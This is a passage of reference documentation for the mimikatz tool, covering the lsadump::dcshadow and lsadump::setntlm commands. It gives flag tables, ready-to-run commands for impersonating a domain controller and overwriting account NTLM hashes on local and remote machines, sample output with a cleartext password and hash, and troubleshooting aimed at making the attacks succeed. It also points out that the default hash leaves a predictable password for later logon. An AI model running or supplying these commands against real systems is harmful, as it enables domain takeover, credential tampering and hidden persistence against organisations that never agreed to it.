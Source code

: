   ```
  mimikatz # lsadump::dcshadow /viewstack
  mimikatz # lsadump::dcshadow /manualregister /domain:corp.local
  mimikatz # lsadump::dcshadow /manualpush /dc:dc02.corp.local
  ```

### Potential errors and troubleshooting
* **`LDAP_CONSTRAINT_VIOLATION`** – The attribute/value pair violates schema rules. Verify the
  attribute syntax and use `/multiple` when setting multi-valued attributes.
* **`ERROR kuhl_m_lsadump_dcshadow ; DsGetDcName`** – Domain discovery failed. Provide `/domain` and
  `/dc` explicitly, and make sure DNS can resolve both names.
* **Replication never completes** – The local machine might not impersonate a DC. Ensure outbound
  firewalls allow RPC/LDAP and that required domain privileges (`SeTcbPrivilege`, `SeMachineAccountPrivilege`) are present.


## `lsadump::setntlm`
Directly sets the NTLM hash (and optionally the LM hash) for an account in SAM.

| Flag | Purpose | Why use it |
| --- | --- | --- |
| `/password:<string>` | Derive the NTLM hash from a clear-text password. | Convenient when you know the password. |
| `/ntlm:<hex>` | Supply a 16-byte NTLM hash directly. | Use when you already have the hash. |
| `/user:<name>` or `/rid:<rid>` | Select the account to modify. | Required to identify the SAM user. |
| `/server:<hostname>` | Target a remote SAM server. | Enables editing passwords on another machine. |

If no credentials are provided the command uses a default known hash, making the account revert to a predictable password for later logon.【F:mimikatz/modules/kuhl_m_lsadump.c†L2128-L2176】【F:mimikatz/modules/kuhl_m_lsadump.c†L2229-L2295】

### Example usage
* Reset a local account to a known password:
  ```
  mimikatz # lsadump::setntlm /user:svcbackup /password:P@ssw0rd!
  ```
  Example output:
  ```
  Password : P@ssw0rd!
  NTLM     : 5f3e62dffd1a4b3e9f82a5c8f8f8cb33
  >>> User svcbackup successfully updated
  ```
* Push a pre-computed NTLM hash to a remote server:
  ```
  mimikatz # lsadump::setntlm /server:fileserver01 /user:Administrator /ntlm:31d6cfe0d16ae931b73c59d7e0c089c0
  ```

### Potential errors and troubleshooting
* **`SamrSetInformationUser` access denied** – Requires administrative rights and the `SeMachineAccountPrivilege` (for machine targets). Use elevated credentials or run as SYSTEM.
* **`RPC_S_SERVER_UNAVAILABLE`** – Remote SAMR traffic is blocked. Ensure TCP/445 and 135 are open and that the Remote Registry/SAMR services are enabled.
* **Hash length mismatch** – Ensure `/ntlm` strings are 32 hexadecimal characters with no spaces.
